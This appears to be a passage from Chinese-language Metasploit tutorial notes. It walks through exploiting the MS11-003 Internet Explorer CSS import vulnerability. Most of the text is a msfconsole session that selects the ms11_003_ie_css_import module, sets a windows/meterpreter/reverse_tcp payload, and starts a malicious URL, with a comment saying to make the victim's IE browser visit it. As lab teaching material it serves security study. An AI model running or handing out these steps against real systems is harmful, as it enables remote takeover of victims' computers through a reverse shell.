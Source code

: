 ## MS11-003

- 通过对这个漏洞详细的描述可知这个漏洞是需要ie浏览器触发，下面是这个漏洞的利用过程

```
root@kali:~# msfconsole
 msf5 > search ms11_003      # 搜索是否拥有此exp
 msf5 > use exploit/windows/browser/ms11_003_ie_css_import       # 使用此exp
 msf5 exploit(windows/browser/ms11_003_ie_css_import) > set payload windows/meterpreter/reverse_tcp
 msf5 exploit(windows/browser/ms11_003_ie_css_import) > run
 [*] Exploit running as background job 0.
 [*] Exploit completed, but no session was created.
 
 [*] Started reverse TCP handler on 192.168.72.135:8443 
 [*] Using URL: http://0.0.0.0:8080/CvYCK0e2WPMi8
 [*] Local IP: http://192.168.72.135:8080/CvYCK0e2WPMi8  # 复制这个地址，让被攻击主机ie浏览器访问
 [*] Server started.
```

![image-20240628162019135](25.Metasploit%20%E6%A1%86%E6%9E%B6/image-20240628162019135.png)
